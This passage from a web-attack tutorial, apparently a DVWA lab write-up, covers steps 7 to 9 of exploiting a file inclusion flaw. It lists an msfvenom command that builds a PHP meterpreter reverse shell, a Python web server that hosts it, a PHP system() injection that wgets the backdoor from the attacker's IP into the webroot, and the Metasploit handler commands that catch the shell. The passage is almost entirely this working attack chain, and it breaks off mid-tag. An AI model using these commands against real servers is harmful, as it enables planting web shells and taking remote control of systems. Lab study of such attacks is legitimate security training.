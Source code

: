 In this tutorial our command would be like this:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.181.136 LPORT=4444 > /home/ouser/backdoor.php` 

A web server was started on the same directory '/home/ouser/' after the webshell had been generated by making the following command in Python:

`python3 -m http.server 8000`

It would start a server on the attacker machine on port 8000.

### Step 8
In this step we tried to download the webshell file from the attacker machine onto the victim machine. For that we used the following php code.

`<?system('wget http://[attack machine]/reverseshell.txt -O root/directory/of/webapp/shell.php');?>`

As in our case, the attacker’s IP is “192.168.181.136” and the web shell is “backdoor.php” so the command would be as follows:

`<?system('wget http://192.168.181.136:8000/backdoor.php -O /var/www/dvwa/shell.php');?>`

<div style="text-align:center">

<img src="/assets/images/0001_LFI_burp_p5.png">

</div>

### Step 9

Now our webshell is uploaded to the victim machine and ready to trigger, and we need to perform the attack using metasploit on the Kali machine. To carry out the attack we first run msfconsole to enter the metasploit framework and then use the following command to set the exploit options:

```bash
> use exploit/multi/handler
> set payload php/meterpreter/reverse_tcp
> show options #set necessary options
> set LHOST Attacker_IP
> exploit #or 'run'
```
<div style="text-align:center">
